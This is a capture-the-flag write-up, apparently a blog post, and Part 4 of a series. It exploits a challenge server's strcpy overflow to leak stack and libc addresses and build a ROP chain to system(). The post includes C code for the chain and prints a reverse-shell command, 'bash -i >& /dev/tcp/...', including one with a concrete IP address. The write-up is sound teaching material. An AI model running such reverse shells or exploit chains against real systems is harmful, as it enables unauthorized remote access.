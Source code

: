 ```yaml
---
layout: post
title: T19 Challenge (Part 4)
---
```


[Last time][part3], we managed to empty the virus database, and got the third flag. But that's not enough. How about trying to get a shell?

### Recap
Previously, we managed to obtain an arbitrary read primitive, and a constrained write primitive.

##### Write
We can overflow `dest` to overwrite `index` (offset from `db` to read from) and `copy_buf` (target to write to). However, the new value of `index` must not contain null bytes since it will stop `strcpy` from copying further to overwrite `copy_buf`.

```c
int check_hash(char* input, char* buf)
{
  char dest[32];
  int index;
  char* copy_buf;

  init_db();

  index = 0;
  copy_buf = buf;
  strcpy(&dest, input);
  do
  {
    strcpy(copy_buf & 0xFFFFFFFFFFFFFFF0, &db[index]);
    if (!memcmp(&dest, copy_buf, 0x20))
      return 1;
    index += 0x21;
  }
  while (db[index]);
  return 0;
}
```

##### Read
Since `1117984489315730401 * 0x21 = 1` for qword multiplication, we can set `index = 1117984489315730401 * offset` to choose the offset from `db` to read from. This is better than only being able to read from offsets in multiples of `0x21`.

```c
char *get_hash(unsigned long long index)
{
  return &db[0x21 * index];
}
```

### The plan
In order to get a shell, we need a way to control `rip`. The best way here would be to place a ROP chain in the stack.

The steps we need to take could be summarized below:

##### 1. Locate the stack
We need to locate the stack so that we can overwrite the return address. In addition, we also want the address of the `message` received from the client, so that we can control what is being written.

##### 2. Overwrite `db` with a working address
The current location `db` is pointing to is no good. Because the stack is located at a higher address relative to `db`, the new value to overwrite `index` will contain null bytes, and stop `strcpy` from copying further to overwrite `copy_buf`.

A random address such as `0x1122334455667788` will be fine, since in this case, the offset for an address in the stack (e.g. `0x7fffffffeab8`) would definitely require 8 bytes to represent.

##### 3. Placing a ROP chain in the stack
Once we have all the above done, we are left with writing a ROP chain onto the stack. 

Sadly, we cannot use `one_gadget` here, because remember that we are not using `stdin` or `stdout`, but a separate `fd` to communicate with the server. `one_gadget` would just spawn a shell to talk with `stdin`/`stdout` but that's useless.

However, we can write a command to somewhere in memory, i.e. spawning a reverse shell with `"bash -i >& /dev/tcp/<ip>/8000 0>&1"`. Then, our ROP chain can call `system` with the address of that string as its argument.

### Exploit
##### Finding the stack
There exists addresses in the `ld` section that points to the stack, which we can easily find using gef.

![scan][scan-ld-stack-screenshot]

Since these addresses reside below our current stack frame, we can place a distinguishable value in our `message` (e.g. `0xdeadbeefcafebabe`), then read from the stack upwards until we find this value. 

From this we can compute the location of our return address to overwrite, as well as the `message` received from the client to copy from.

##### Finding libc
Since we will be calling `system` afterwards, we also need to find the address of libc. For doing this, it is more effective to use the same libc as the challenge server. So I downloaded `/lib/x86_64-linux-gnu/libc-2.24.so` from the challenge server, and from that time onwards spawn `srv_copy` with

```bash
LD_PRELOAD=./libc-2.24.so ./ld-2.24.so ./srv_copy
```

![scan][scan-ld-libc-screenshot]

Similar to finding the stack, we can utilize the references to libc present in the ld section. For example, we can read the address of `malloc` then subtract `0x7af10` to obtain the address of the start of `libc`.

##### Overwrite `db`
There is no strong restriction of what to overwrite the address that `db` points to with, but the most convenient way is to fill up all the 8 bytes, so that the offset of the stack relative to this address would take up 8 bytes.

For example, we set `db` to now be at `0x19edc3284c8b80b1`, so that when trying to copy from our `message` (at `0x7fffffffe8e0`), the `index` will be `0xe612bcd7b374682f`. No null bytes. 

Hence, our payload for `check_hash` would look something like the following

```
<32 byte padding> | <offset to memory containing new db> - 8 | 0x603108 (location of db)
```

Recall that the program will keep copying from `db[index]` until either 32 bytes from `dest` and `copy_buf` are the same, or `db[index]` contains a null byte. Also, there is `copy_buf & 0xFFFFFFFFFFFFFFF0` when calling `strcpy`, so offsets need to be adjusted accordingly.

```c
do
{
  strcpy(copy_buf & 0xFFFFFFFFFFFFFFF0, &db[index]);
  if (!memcmp(&dest, copy_buf, 0x20))
    return 1;
  index += 0x21;
}
while (db[index]);
```

It is almost certainly impossible to ensure that `db[index]` contains a null byte after changing the value of `db`, considering that both `index` and the new value of `db` are randomly chosen.

But we still need to stop the loop. We can achieve that by filling the 32 bytes of `dest` with the 32 bytes that are expected to be in `copy_buf`, so that `memcmp` returns 0 and we exit the loop.

With this in place, what we have achieved is the ability to **copy data from our sent message** into **anywhere we want**.

##### Placing the ROP chain
This part should be fairly simple with all the preparations made above. 

But first, we got to copy our command into somewhere in memory so that we can call `system` with it later. We choose to spawn a reverse shell due to the reasons discussed earlier.

```
bash -c "bash -i >& /dev/tcp/188.166.219.74/8080 0>&1"
```

One nice place is the original `db`, since it is not going to be used anywhere anymore, and we have one whole page of memory to work with. 

Finally, we can write our ROP chain onto the stack, like the following

```
pop rdi, ret
original_db
system()
```

Writing the ROP chain is slightly tricky because there will definitely be null bytes in our gadgets that will prevent `strcpy` from copying the whole chain at once. There is no way to avoid that, but we can take advantage of the loop in `check_hash` to keep copying until `dest == copy_buf`.

We can write the chain part by part, starting from the bottom, something like the following

```c
// includes rbp because location of return address ends with 8
// copy_buf & 0xFFFFFFFFFFFFFFF0 would result in the copying being done
// 8 bytes earlier

int i = 0;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;       // rbp
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;   // ret_addr
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = 0xdeadbeefcafebabe;  // ret_addr + 8
*(unsigned long long*)&s.data[pad + 24 + 33 * i] = system_addr;         // ret_addr + 16

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = 0x00adbeefcafebabe;

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = shell_str;

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0x00adbeefcafebabe;

i++;
*(unsigned long long*)&s.data[padding_len + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[padding_len + 8 + 33 * i] = pop_rdi_ret_gadget;
```

##### Exploit in action
If nothing goes wrong, we shall get a `root` shell.

*(You might need to watch this in full screen.)*

<script id="asciicast-0PuOCdPcQc2OaBDKNVqJeLVcZ" src="https://asciinema.org/a/0PuOCdPcQc2OaBDKNVqJeLVcZ.js" async></script>

You can find the relevant files [here](https://github.com/daniellimws/daniellimws.github.io/tree/master/ctfs/t19/part4).

---

If there is anything unclear, feel free to leave a comment below.

[part3]:/t19-challenge-3.html
[scan-ld-stack-screenshot]:{{site.baseurl}}/ctfs/t19/part4/images/scan-ld-stack.png
[scan-ld-libc-screenshot]:{{site.baseurl}}/ctfs/t19/part4/images/scan-ld-libc.png